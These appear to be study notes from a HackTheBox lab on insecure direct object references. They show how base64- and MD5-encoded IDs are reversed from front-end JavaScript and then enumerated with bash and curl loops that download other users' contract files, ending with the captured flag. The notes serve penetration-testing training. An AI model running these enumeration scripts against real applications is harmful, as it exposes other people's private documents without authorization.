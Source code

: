 # 07 idor bypassing encoded references

* Burp Suite
* Intercept GET/POST requests
* Parameter : contract=cdd96d3cc73d1dbdaffa03cc6cd7339b --> appears to be hashing it in an md5 format
* Attempt to hash various values, like uid, username, filename : echo -n 1 | md5sum c4ca4238a0b923820dcc509a6f75849b -
* Burp Comparer and fuzz various values and then compare each to our hash to see if we find any matches

## Function Disclosure

Most modern web applications are developed using JavaScript frameworks, like Angular, React, or Vue.js

\--> Web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers

function downloadContract(uid) { $.redirect("/download.php", { contract: CryptoJS.MD5(btoa(uid)).toString(), }, "POST", "\_self"); }

* Analyze the code : btoa(uid) : base64 encoded string of the uid variable

echo -n 1 | base64 -w 0 | md5sum cdd96d3cc73d1dbdaffa03cc6cd7339b -

* Write a script to enumerate all contracts :

for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b 0b7e7dee87b1c3b98e72131173dfbbbf 0b24df25fe628797b3a50ae0724d2730 f7947d50da7a043693a592b4db43b0a1 8b9af1f7f76daf0f02bd9c48c4a2e3d0 006d1236aee3f92b8322299796ba1989 b523ff8d1ced96cef9c86492e790c2fb d477819d240e7d3dd9499ed8d23e7158 3e57e65a34ffcb2e93cb545d024f5bde 5d4aace023dc088767b4e08c79415dcd

OR

* Use Burp Intruder
* Make a POST request

\#!/bin/bash

for i in {1..10}; do for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do curl -sOJ -X POST -d "contract=$hash" http://SERVER\_IP:PORT/download.php done done

bash ./exploit.sh

## LAB

\
&#x20;   function downloadContract(uid) {\
&#x20;     window.location = \`/download.php?contract=${encodeURIComponent(btoa(uid))}\`;\
&#x20;   }\
&#x20;&#x20;

```
  <ul class="pure-tree">
    <li class="pure-tree_link"><a href="javascript:downloadContract('1')" target="_self">Employment_contract.pdf</a></li>
  </ul>
```

GET /download.php?contract=MQ%3D%3D

echo -n 1 | base64 -w 0 | md5sum | tr -d ' -' cdd96d3cc73d1dbdaffa03cc6cd7339b

echo -n '1' | base64 MQ==

curl http://94.237.55.163:30646//download.php?contract=MQ%3D%3D --output cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf

curl --get --data-urlencode "contract=MQ==" http://94.237.55.163:30646/download.php --output test.pdf

\#!/bin/bash

for i in {1..20}; do for hash in $(echo -n $i | base64); do curl --get --data-urlencode "contract=$hash" http://94.237.55.163:30646/download.php --output test$i.pdf done done

cat test20.pdf HTB{h45h1n6\_1d5\_w0n7\_570p\_m3}
